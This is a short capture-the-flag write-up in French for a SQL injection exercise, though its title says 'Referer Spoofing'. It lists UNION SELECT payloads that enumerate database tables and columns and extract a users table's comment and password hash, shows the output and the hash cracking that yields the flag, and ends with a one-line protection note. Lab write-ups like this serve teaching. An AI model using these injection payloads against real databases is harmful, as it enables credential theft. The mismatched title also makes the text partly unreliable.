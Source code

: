 # Vulnérabilité de Referer Spoofing (Falsification de Referer)

## Découverte
Quand on tape n'importe quoi ca mets direcement une erreur SQl, ce qui veut dire que le champs est directement insere dans la requete.

1 UNION SELECT table_name, NULL FROM information_schema.tables -- 

```
    1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=0x7573657273 -- 
```
Lsite les columns de la DB

Tester les differents fields :

```
    1 UNION SELECT Commentaire, NULL FROM 0x7573657273 --
```


1 UNION SELECT countersign, NULL FROM users WHERE user_id=5 --
1 UNION SELECT Commentaire, NULL FROM users WHERE user_id=5 --
1 UNION SELECT country, NULL FROM users WHERE user_id=5 --
1 UNION SELECT town, NULL FROM users WHERE user_id=5 --

1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 -- 
```
ID: 1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 --  
First name: one
Surname : me
ID: 1 UNION SELECT Commentaire, countersign FROM users WHERE user_id=5 --  
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

On prend la clef comme dit si dessous 128 bits donc hash md5 qui  est egale a FortyTwo 

on encrypte fortytwio en minuscule en .sha256 et ca donne le flag a trouver


## Protection
Il faut verifier si il n'y a pas e SQL dans les requetes si on les inseres apres dans les requetes sql 
